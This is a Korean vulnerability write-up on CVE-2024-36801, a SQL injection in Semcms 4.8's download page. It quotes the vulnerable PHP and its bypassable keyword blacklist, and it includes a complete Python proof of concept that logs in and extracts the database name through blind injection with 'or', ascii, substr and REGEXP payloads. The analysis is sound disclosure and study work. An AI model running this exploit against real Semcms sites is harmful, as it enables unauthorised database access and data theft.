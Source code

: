 ```yaml
---
title: "[하루한줄] CVE-2024-36801 : Semcms의 sql injection 취약점"
author: pwndorei
tags : [semcms, sqli, SQL injection, pwndorei]
categories: [1day1line]
date: 2024-06-05 23:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://github.com/want1997/SEMCMS_VUL/blob/main/Download_sql_vul_2.md](https://github.com/want1997/SEMCMS_VUL/blob/main/Download_sql_vul_2.md)

## Target

- Semcms 4.8

## Explain

중국에서 개발된 콘텐츠 관리 시스템(CMS)인 Semcms는 PHP와 MySQL로 개발되어 중국 내의 중소형 전자상거래 사이트에 주로 사용되고 있습니다.

한때 Apache, PHP, MySQL이 자주 함께 사용되어 APM이라고 불렸던 것처럼 PHP와 MySQL을 연동하여 같이 사용하는 것은 간단하고 널리 사용되곤 합니다.

이번 취약점이 발생한 SEMCMS_Download.php에서도 아래와 같이 `query`를 통해 sql 문을 실행하고 이 과정에서 클라이언트가 `lgid`로 전달한 파라미터를 쿼리 문자열에 사용하고 있습니다.

```php
 $sql=$db_conn->query("select * from sc_download where languageID=".$_GET["lgid"]."");     
 $all_num=mysqli_num_rows($sql);
```

`.` 연산자를 통해 `select * from sc_download where languageID=`과 `$_GET["lgid"]`를 연결하여 쿼리 문자열로 사용하고 이 경우에는 아주 간단히 sql injection이 이루어질 수 있지만 Semcms에서는 아래의 코드로 쿼리 문자열에 사용되는 값을 블랙리스트를 통해 필터링합니다.

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 
```

`inject_check_sql` 함수에서 정규 표현식을 통해 `select`, `insert` 등의 문자열을 필터링하고 있지만 블랙리스트가 모든 경우를 포함하지 못하기 때문에 `or`이나 `ascii`, `substr` 등 MySQL 내장 함수 등을 실행할 수 있고 이를 통해 blind sql injection을 수행하여 민감한 정보들을 유출하는 것이 가능했습니다.

poc에서는 `or`을 통해 injection된 구문이 참일 경우에만 데이터가 표시된다는 특성을 이용해서 blind sql injection을 수행합니다.

![Untitled](2024-06-05/Untitled.png)

위 경우에 실행되는 쿼리 문자열은 `select * from sc_download where languageID=-1`로 `languageID=-1`이 항상 거짓이 됩니다.

따라서 아래처럼 `-1 or` 뒤에 오는 조건에 따라 데이터의 표시 여부가 결정되기 때문에 이를 통해 blind sql injection이 가능합니다. 

![Untitled](2024-06-05/Untitled%201.png)

아래의 poc에서는 `get_db_len` 함수에서 `length(database())`와 `REGEXP`를 통해 데이터베이스 이름의 길이를 알아낸 다음 `get_db_name` 함수에서 `ascii`, `substr`과 `REGEXP`를 사용해서 데이터베이스 이름을 한 글자씩 알아냈습니다.

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests

session = requests.session()
def login(url, username, password):
    burp0_url = url + "/SEMCMS_Top_include.php?CF=users&Class=login"
    burp0_cookies = {"scusername": "%E6%80%BB%E8%B4%A6%E5%8F%B7", "scuseradmin": "Admin",
                     "scuserpass": "c4ca4238a0b923820dcc509a6f75849b"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "http://127.0.0.1:8002", "Connection": "close",
                     "Referer": "http://127.0.0.1:8002/e2aLvD_Admin/index.html", "Upgrade-Insecure-Requests": "1",
                     "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin",
                     "Sec-Fetch-User": "?1"}
    burp0_data = {"UserName": username, "UserPass": password, "checkbox": "on", "x": "39", "y": "15"}
    re = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    if "欢迎使用黑蚂蚁" in re.text:
        print("登录成功")
    else:
        print("登录失败")

def get_db_len(url):
    """
	get database length
	"""
    for i in range(1, 50):
        i = str(i)
        if len(i) == 1:
            payload = "-1 or length(database()) REGEXP char(94,{},36)".format(ord(i))

        else:
            a = i[0]
            b = i[1]
            payload = "-1 or length(database()) REGEXP char(94,{},{},36)".format(ord(a), ord(b))

        url1 = url + payload
        resp = session.get(url1, timeout=3)
        if ".jpg" in resp.text:
            print("存在漏洞:",i)
            print(url1)
            return int(i)

def get_db_name(url):

    db_len = get_db_len(url)
    print("数据库长度:",db_len)

    print("数据库名:")
    for i in range(1, db_len + 1):
        for j in range(32, 127):
            j = str(j)
            a = j[0]
            b = j[1]
            if len(j) == 2:
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a),
                                                                                                 ord(b))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a), ord(b)))
            else:
                c = j[2]
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a),
                                                                                                    ord(b),
                                                                                                    ord(c))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a), ord(b),

            url1 = url + payload
            resp = session.get(url1, timeout=3)

            if ".jpg" in resp.text:
                print(chr(int(j)))
                print(url1)

# url = input("请输入后台url:")
# username = input("请输入用户名:")
# password = input("请输入密码:")
url="http://127.0.0.1:8002/e2aLvD_Admin"
# mode_len = session.get(url_test="", timeout=3)
username="Admin"
password='1'
login(url=url, username=username, password=password)

path2="/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID="
path4="/SEMCMS_Download.php?lgid="
get_db_name(url=url + path4)
```
